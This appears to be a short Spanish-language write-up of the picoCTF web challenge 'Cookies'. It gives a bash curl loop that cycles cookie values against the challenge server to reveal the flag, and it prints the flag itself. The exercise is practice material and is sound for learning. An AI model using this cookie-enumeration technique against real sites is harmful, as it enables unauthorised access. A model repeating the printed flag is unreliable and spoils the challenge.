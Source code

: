  
 **Reto:** Cookies

**Descripción:**
¿A quién no le encantan las galletas? Intenta descubrir cuál es la mejor. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)

**Solución:**
snickerdoodle
for i in {1..20}; do curl -s http://mercury.picoctf.net:64944/check -H "Cookie: name=$i";done | grep picoCTF

==picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}==
**Notas adicionales:**

**Referencias:** 
https://youtu.be/LseQ-XWCXVo?si=-QPqR8zck1X7MMRL